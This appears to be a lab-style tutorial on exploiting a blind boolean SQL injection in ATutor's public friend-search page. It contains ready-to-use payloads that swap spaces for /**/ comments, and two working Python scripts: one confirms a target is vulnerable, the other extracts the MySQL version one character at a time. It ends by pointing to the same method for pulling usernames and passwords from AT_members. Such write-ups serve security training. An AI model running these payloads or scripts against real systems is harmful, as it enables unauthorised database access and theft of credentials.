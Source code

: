## A Small Hurdle
Extracting the data from the database with our blind SQLi, isn't as straight forward.
Our payloads cannot contain any spaces, since they are used as delimiters in the query construction process.

However, since this is an ATutor-related constraint and not something inherent to MySQL, we can replace spaces with anything that constitutes a valid space substitute in MySQL syntax.
For instance, instead of a normal query we can use the following query:

```sql
select/**/1;
```


## Baseline Exploit
Now that we are fully aware of the restrictions in place, our first goal is to create a very simple dummy TRUE/FALSE injection subquery.
The best way to exploit a blind boolean based sqli, is to compare HTML responses.
We can craft simple or even complex boolean based queries to the webserver, and then compare html responses to exfiltrate required data.

2 dummy injections are as follows:
```mysql
#TRUE STATEMENT:
AAAA')/**/or/**/(select/**/1)=1%23;

#FALSE STATMENT:
AAAA')/**/or/**/(select/**/1)=0%23
```

We can also use the atutor mysql database to confirm that these queries will work:

![](../../Screenshots/t1-ss24.png)

We see that the query returns a 1 as a boolean true result, if we change the 1 to a 0, we get a 0 as a false.

We can use our dummy injections and use a python script to check if the target is vulnerable or not:

```python
import requests
import sys

def searchFriends_sqli(ip, inj_str, query_type):
    target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    content_length = int(r.headers['Content-Length'])
    if (query_type==True) and (content_length > 20):
        return True
    elif (query_type==False) and (content_length == 20):
        return True
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    false_injection_string = "test')/**/or/**/(select/**/1)=0%23"
    true_injection_string  = "test')/**/or/**/(select/**/1)=1%23"

    if searchFriends_sqli(ip, true_injection_string, True):
        if searchFriends_sqli(ip, false_injection_string, False):
            print "(+) the target is vulnerable!"

if __name__ == "__main__":
    main()
```

The following sends 2 sqli payloads, if the content length(html response) is more than 20, the result of the boolean query is true.
However, if it's less than 20, it's a false.

Running the script, we find that the web app is vulnerable:

![](../../Screenshots/t1-ss25.png)

## Building The Query
With the baseline exploit ready, we can now build on our script and payload, in order to exfiltrate valuable data.
Given the fact that we are dealing with a blind SQL injection, we have to resort to a byte-by-byte approach.
A query we can use will compare each byte of the subquery result (MySQL version) with a set of characters of our choice.
For instance, we can ask if the first character of the version string is a "4" or "5":
```sql
select/**/(substring((select/**/version()),1,1))='4';
select/**/(substring((select/**/version()),1,1))='5';
```

If the first character of the version string matches with the character we provide, we'll get a true statement, and vice-versa:

![](../../Screenshots/t1-ss26.png)

For this payload, we rely on the [substring function](https://www.w3resource.com/mysql/string-functions/mysql-substring-function.php).
It is good practice to convert the resultant character to its numeric ASCII value and then perform the comparison.

Our new exploit script would look like as follows:
```python
import requests
import sys

def searchFriends_sqli(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target)
        content_length = int(r.headers['Content-Length'])
        if (content_length > 20):
            return j
    return None    

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    print "(+) Retrieving database version...."

    # 19 is length of the version() string. This can
    # be dynamically stolen from the database as well!
    for i in range(1, 20):
        injection_string = "test')/**/or/**/(ascii(substring((select/**/version()),%d,1)))=[CHAR]%%23" % i
        extracted_char = chr(searchFriends_sqli(ip, injection_string))
        sys.stdout.write(extracted_char)
        sys.stdout.flush()
    print "\n(+) done!"

if __name__ == "__main__":
    main()
```

Running the script against our target, we get an error but are still able to extract the database version:

![](../../Screenshots/t1-ss27.png)

We can similarly extract login names and passwords which are stored in AT_members in the database.
